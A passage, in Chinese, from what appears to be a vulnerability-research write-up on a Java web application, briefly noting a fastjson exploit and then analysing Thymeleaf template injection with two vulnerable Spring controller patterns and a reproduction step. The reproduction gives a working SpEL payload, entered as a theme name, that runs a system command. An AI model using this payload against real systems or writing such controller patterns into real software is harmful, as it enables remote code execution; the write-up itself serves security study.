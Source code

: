 中间有一块应该是推送的代码，就之前删除那部分（说实话没太理解），然后就是获取响应的内容返回

[![](assets/1709022863-fb55b1f8c7b2f8084bc3dc963cf12c01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191316-09fcd38c-d498-1.png)

之后就触发 fastjson 漏洞

[![](assets/1709022863-a80c96597e51c7494fc33fcefd1d0fd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191333-14378022-d498-1.png)

## 0x07 Thymeleaf 模板注入漏洞

### 漏洞分析

能引起 Thymeleaf 模板注入漏洞的就两种情况：

1）在查找模板中，引用了用户输入的内容

```bash
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return  lang ; //template path is tainted
}
```

2）controller 无返回值，则以 GetMapping 的路由为视图名称

```bash
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

所以我们在寻找 Thymeleaf 模板注入漏洞时，重点关注一下以上两种情况，看看有没有查找模版时`视图名称`用户可控

### 漏洞复现

在主题管理功能处新增主题，然后在主题名称填入我们的 payload

```bash
__${T(Runtime).getRuntime().exec("calc")}__::.x
```
